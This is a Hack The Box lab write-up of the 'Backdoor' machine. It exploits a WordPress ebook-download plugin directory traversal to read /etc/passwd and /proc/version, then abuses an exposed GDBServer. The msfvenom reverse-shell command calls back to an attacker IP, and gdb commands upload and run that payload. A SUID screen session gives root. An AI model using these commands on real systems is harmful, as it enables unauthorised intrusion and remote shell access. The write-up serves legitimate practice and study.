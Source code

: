 ```yaml
---
layout: post
title: "HTB - Backdoor"
author: "joelczk"
tags: HTB
excerpt_separator: <!--more-->
---
```


Backdoor is a HTB machine that is rated to be of easy difficulty. However, I think that this machine is defintely an interesting machine that taught me about vulnerabilities surrounding the use of GDBServer.

<!--more-->

## HTB - Backdoor
**Box** : Backdoor\
**IP Address** : 10.129.106.84\
**Operating System** : Linux

## Remarks
- This machine makes use of the lesser known rce surrounding GDBServers. So, do take some time to research on the GDBServer before starting the machien
- Another thing to note is that this machine may not be as straightforward when exploiting the LFI vulnerabilities. Do make sure to cover all the possible points of exploitation

## Enumeration

Just like any other box, we will first start off with doing a Nmap scan of the IP address. For this machine, other than the typical ports 22 and 80, we also obtain a port 1337. However, this port seems to be a false positive as we are unable to detect any known version or service.

## Discovery

Before we delve into finding the endpoints for the web service, we have to add the IP address to our ```/etc/hosts``` file. 

```
10.129.106.84    backdoor.htb 
```

First, we will use Gobuster to enumerate the endpoints on http://backdoor.htb. From the endpoints, we can easily see that this website possibly uses wordpress plugins. 

```
http://10.129.106.84:80/index.php            (Status: 301) [Size: 0] [--> http://10.129.106.84:80/]
http://10.129.106.84:80/license.txt          (Status: 200) [Size: 19915]
http://10.129.106.84:80/readme.html          (Status: 200) [Size: 7346]
http://10.129.106.84:80/wp-content           (Status: 301) [Size: 319] [--> http://10.129.106.84/wp-content/]
http://10.129.106.84:80/wp-admin             (Status: 301) [Size: 317] [--> http://10.129.106.84/wp-admin/]
http://10.129.106.84:80/wp-config.php        (Status: 200) [Size: 0]
http://10.129.106.84:80/wp-includes          (Status: 301) [Size: 320] [--> http://10.129.106.84/wp-includes/]
http://10.129.106.84:80/wp-trackback.php     (Status: 200) [Size: 135]
http://10.129.106.84:80/wp-login.php         (Status: 200) [Size: 5758]
http://10.129.106.84:80/xmlrpc.php           (Status: 405) [Size: 42]
http://10.129.106.84:80/wp-links-opml.php    (Status: 200) [Size: 223]
```

## Obtaining the user flag

Since we know that this website potentially uses wordpress plugins, we will navigate to http://backdoor.htb/wp-content-plugins to find out the wp plugins that are being used. From the endpoint, we are able to find that this website is using a vulnerable ebook-download plugin. 

From (exploit-db)[https://www.exploit-db.com/exploits/39575], we can see that this plugin is vulnerable to directory traversal. This can then be futhur exploited into a LFI as the payload file contents will be loaded. We will verify this by using /etc/passwd as our payload.
![LFI](../assets/backdoor/lfi.png)

Since we know that the website is vulnerable to LFI, I proceeded to try serveral ways of achieving RCE via LFI, but I was unable to exploit them. Finally, I was able to find that port 1337 was actually running GDBServer by bruteforcing /proc/*/cmdline using Burp Suite.

![GDB Server](../assets/backdoor/gdb_server.png)

With furthur research on GDBServer and the writeup [here](https://security.tencent.com/index.php/blog/msg/137), I realized that a rce could be exploited on a publicly-exposed GDB server. 

However, there are 2 pieces of information that are a few information that we have to find out before we can continue with the exploit:
- Architecture of the server (Whether it is 32-bit or 64-bit)
- Low-privilege user on the server

For the low-privilege user, it can be easily found by again making use of the LFI that we have found earlier to view the /etc/passwd file. From there, the low-privilege user is easily revealed to be ```user```

Lastly, for the operating system, we will make use of the LFI again to read the /proc/version file. From there, we are able to find that the server is running on amd64, which tells us that the server is a 64-bit architecture.

Now that we have the required information, we will then proceed to use msfvenom to generate the reverse shell binary. This binary will then be uploaded to the GDB Server and executed to create a reverse shell in the next step. 

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.19 LPORT=443 -f elf -o rev.elf
```

The last step in generating the reverse shell is to first connect to the gdb server at 10.129.106.84:1337. Afterwards, we will upload the rev.elf that we have generated onto the /home/user directory on the gdb server and finally, all we have to do is to execute the rev.elf to spawn the reverse shell.

```
target extend-remote 10.129.106.84:1337
cd /home/kali/rev.elf
remote put rev.elf rev.elf
set remote-exec rev.elf /home/user/rev.elf
run
```

After spawning the reverse shell, the user flag can then be easily obtained from /home/user directory.

```
user@Backdoor:/home/user$ cat user.txt
cat user.txt
<Redacted user flag>
```

## Obtaining root flag

From the LinEnum privilege escalation script, we notice that /usr/bin/screen is being set with an SUID bit, which is unusual.

```
[-] SUID files:
-rwsr-xr-- 1 root messagebus 51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 22840 May 26 11:50 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 473576 Jul 23 12:55 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 68208 Jul 14 22:08 /usr/bin/passwd
-rwsr-xr-x 1 root root 85064 Jul 14 22:08 /usr/bin/chfn
-rwsr-xr-x 1 root root 88464 Jul 14 22:08 /usr/bin/gpasswd
-rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
-rwsr-xr-x 1 root root 67816 Jul 21  2020 /usr/bin/su
-rwsr-xr-x 1 root root 166056 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 44784 Jul 14 22:08 /usr/bin/newgrp
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 474280 Feb 23  2021 /usr/bin/screen
-rwsr-xr-x 1 root root 39144 Jul 21  2020 /usr/bin/umount
-rwsr-xr-x 1 root root 55528 Jul 21  2020 /usr/bin/mount
-rwsr-xr-x 1 root root 53040 Jul 14 22:08 /usr/bin/chsh
-rwsr-xr-x 1 root root 31032 May 26 11:50 /usr/bin/pkexec
```

We can easily exploit /usr/bin/screen to obtain a root shell. To do that, all we have to do is to use the ```-x``` flag to attach a non-detached screen session. We will then add in the ```root/root``` argument to specify that we are going to execute the screen executable with root privileges. 

```
user@Backdoor:/home/user$ screen -x root/root
root@Backdoor:~# id
id
uid=0(root) gid=0(root) groups=0(root) 
```

Afterwards, we can easily obtain the root flag.

```
root@Backdoor:~# cat root.txt
cat root.txt
<Redacted root flag>
root@Backdoor:~#
```